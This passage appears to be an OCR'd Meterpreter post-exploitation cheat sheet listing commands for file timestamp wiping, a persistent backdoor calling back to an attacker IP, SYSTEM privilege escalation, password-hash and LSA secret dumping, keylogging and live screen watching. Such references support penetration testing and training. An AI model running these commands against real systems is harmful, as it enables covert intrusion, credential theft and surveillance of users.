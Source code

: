 * `timestomp -c <file>`: Clear file timestamps
* `timestamp`: Manipulate file MACE attributes\

* `getwd`: Print working directory
* `pwd`: Print working directory
* `cd <dir>`: Change directory
* `ls | dir`: List files in the current directory
* `mkdir <dir>`: Create a directory
* `rmdir <dir>`: Remove a directory
* `show_mount`: List all mount points/logical drives\

* `getlwd`: Print local working directory
* `lpwd`: Print local working directory
* `lcd`: Change local working directory
* `lls`: List local files

**Persistence**

* `run persistence -U -i 5 -p <port> -r <attack_ip>`: Create a persistent backdoor

**Privilege Escalation**

* `getsystem`: Attempt to elevate privileges to SYSTEM
* `getprivs`: List available privileges
* `run post/windows/escalate/getsystem`: Use getsystem script

**Password Extracting**

* `hashdump`: Dump password hashes
* `lsa_dump_sam`: Dump the content of the SAM database
* `lsa_dump_secrets`

**User Interface and Media Commands**

* `enumdesktops`: List all accessible desktops and window stations
* `getdesktop`: Get the current Meterpreter desktop
* `setdesktop`: Change the Meterpreter's current desktop
* \

* `idle time`: Return the number of seconds the remote user has been idle
* \

* `uictl`: Control some of the user interface components
* \

* `keyboard_send`: Send ketstrokes
* `keyevent`: Send key events
* `keyscan_start`: Start the keylogger
* `keyscan_dump`: Dump the keystrokes
* `keyscan_stop`: Stop the keylogger
* \

* `mouse`: Send mouse events
* \

* `screenshare`: Watch the remote user's desktop in real-time
* `screenshot`: Take a screenshot of the desktop
* \
